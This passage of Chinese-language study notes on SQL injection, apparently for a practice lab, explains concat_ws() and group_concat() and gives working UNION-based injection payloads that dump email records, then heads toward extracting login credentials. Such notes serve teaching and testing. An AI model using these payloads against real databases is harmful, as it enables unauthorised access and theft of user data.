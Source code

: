 
2. concat_ws()

   * 将多个字符串连接成为一个字符串，可以指定分隔符

   ```
   -1' union select 1,concat_ws('__',id,email_id),3 from emails --+
   ```
   
   <img src="../../images/8-19-morning/concat_ws.png" alt="concat_ws" style="zoom:67%;" />
   
3. group_concat()

   * 将多行结果连接成一组,可以指定分隔符

   ```
   -1' union select 1,group_concat(email_id),3 from emails --+
   -1' union select 1,group_concat(email_id separator '~'),3 from emails --+
   ```
   
   <img src="../../images/8-19-morning/group_concat.png" alt="group_concat" style="zoom:67%;" />

###### ⑧获取详细信息

* 查看具体的信息，例如登录账号、密码

